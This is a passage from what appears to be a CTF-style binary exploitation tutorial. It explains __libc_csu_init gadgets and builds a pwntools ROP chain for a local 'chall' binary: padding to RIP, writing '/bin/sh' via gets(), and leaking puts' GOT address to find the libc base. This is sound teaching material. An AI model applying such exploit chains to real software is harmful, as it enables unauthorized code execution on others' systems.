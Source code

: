 Firstly, the lines with `mov` instruction are transferring the values of the registers of left operand to right operand. Then the `call` keyword is calling the subroutine calculated by at offset `r12 + rbx * 8`, and with the square brackets around them means the indirect addressing, this will make the `call` instruction to jump at that subroutine at the given address. Now, the `add rbx, 1` will increment the value of `rbx` by `1`. Then the value of `rbp` and `rbx` is compared, if they are not equal the RIP will be set to  `__libc_csu_init + 64`. If it is equal, then the stack size will be increased by 8 and the registers `rbx`, `rbp`, `r13`, `r14` and `r14` will be popped.

---

# Payload: Part 1

Now, since we are done with theoretical aspects of this technique, it's time to try it practically. What we gonna do here is, chain the ROP chain from which we were able to input `"/bin/sh"`, and we are going to leak a GOT address in order to calculate the LIBC base address, then we will call main again.

Let's build a ROP chain:-

Some prologue and predefined variables:-

```python
from pwn import *

elf = ELF("chall")
libc = elf.libc
p = process("./chall")
 
writable_address = 0x601150 # writale address
pop_rdi = 0x400693   # pop rdi; ret;
```
Enter the `/bin/sh` string to the wriitable address.

```python
payload = b"A"*40 # Padding to `RIP` register
payload += p64(pop_rdi) # The `pop rdi; ret;`, this will wait for input
payload += p64(writable_address) # The address is passed to `rdi` register
payload += p64(elf.plt['gets']) # This will call the `gets` with it's first argument as the writable address

'''
gets(writable_address);
'''
```
You know about what is happening here from earlier. Let's move to other:-

```python
payload += p64(pop_rdi) # This will pop the `rdi` register which will wait for contents to be loaded in. 
payload += p64(elf.got['puts']) # This `GOT` address of `puts` will be given to `rdi` register, hence the first argument of puts
payload += p64(elf.plt['puts']) # This will call `puts` with the `elf.got['puts']`
```

This part is doing a bit of what is happening with the above part, the differnce is `puts` will print the value provided as first argument, here the `GOT` address will point to the LIBC address of the function which means it'll print the address of `puts` from the LIBC.
